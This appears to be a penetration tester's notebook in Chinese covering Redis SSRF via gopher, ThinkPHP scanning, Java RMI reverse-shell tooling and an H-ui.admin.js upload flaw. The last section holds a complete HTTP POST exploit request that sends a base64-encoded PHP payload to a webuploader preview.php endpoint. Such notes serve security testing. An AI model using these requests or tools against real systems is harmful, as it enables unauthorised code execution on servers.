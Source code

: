 Redis未授权+SSRF的gopher协议：<br />[https://blog.csdn.net/qq_45213259/article/details/110352124](https://blog.csdn.net/qq_45213259/article/details/110352124)
<a name="MsfOE"></a>
## Thinkphp
直接使用TPscan<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616319220891-da358bb4-046d-4a11-b2c5-2778f41312b6.png#height=288&id=TT5tE&originHeight=575&originWidth=921&originalType=binary&ratio=1&size=11110&status=done&style=none&width=460.5)
<a name="NN0D1"></a>
## java rmi漏洞
工具：<br />[https://github.com/BofengDuke/Script/raw/master/parseNmapXml/attackRMI.jar](https://github.com/BofengDuke/Script/raw/master/parseNmapXml/attackRMI.jar)

nmap扫描过程中发现了目标机子8100端口存在Java RMI服务<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1618972431995-d34f6cb5-7063-4df4-a86a-36baa669bf86.png#height=29&id=ppL9U&originHeight=29&originWidth=449&originalType=binary&ratio=1&size=11786&status=done&style=none&width=449)

盲猜出网情况下，直接反弹shell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1618972520369-3510beb4-6590-4291-881f-c44f408b6079.png#height=280&id=JgoBG&originHeight=373&originWidth=786&originalType=binary&ratio=1&size=256760&status=done&style=none&width=590)

常见的情况下是1099端口。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1618972663001-85c9d064-ee7d-4ee3-822c-05670a73358c.png#height=440&id=Q85nv&originHeight=587&originWidth=631&originalType=binary&ratio=1&size=36213&status=done&style=none&width=473)

<a name="TRBOB"></a>
## 前端框架 H-ui.admin.js
H-ui.admin.js前端组件RCE上传漏洞<br />指纹识别H-ui.admin.js<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620209316522-03f87f3c-ca05-431c-893d-19aad388147b.png#height=399&id=n7xkv&originHeight=797&originWidth=1354&originalType=binary&ratio=1&size=274117&status=done&style=none&width=677)

直接构造post数据包将执行的php命令base64编码 <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620209445485-2a0d5a02-5010-4807-958d-55b16fa3f529.png#height=166&id=Cxzay&originHeight=331&originWidth=1014&originalType=binary&ratio=1&size=57008&status=done&style=none&width=507)
```python
POST /lib/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Connection: close
Cookie: PHPSESSID=n37p517m8v6e3f9m65tnlk4op5
Upgrade-Insecure-Requests: 1

data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620209466480-6da9591d-e230-451e-a958-4bb9c01711ce.png#height=301&id=IrAkZ&originHeight=401&originWidth=1258&originalType=binary&ratio=1&size=69995&status=done&style=none&width=944)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1620209500994-47e0b0a8-f60a-4484-94e0-750e647780a4.png#height=419&id=zO5Ec&originHeight=837&originWidth=907&originalType=binary&ratio=1&size=88297&status=done&style=none&width=453.5)
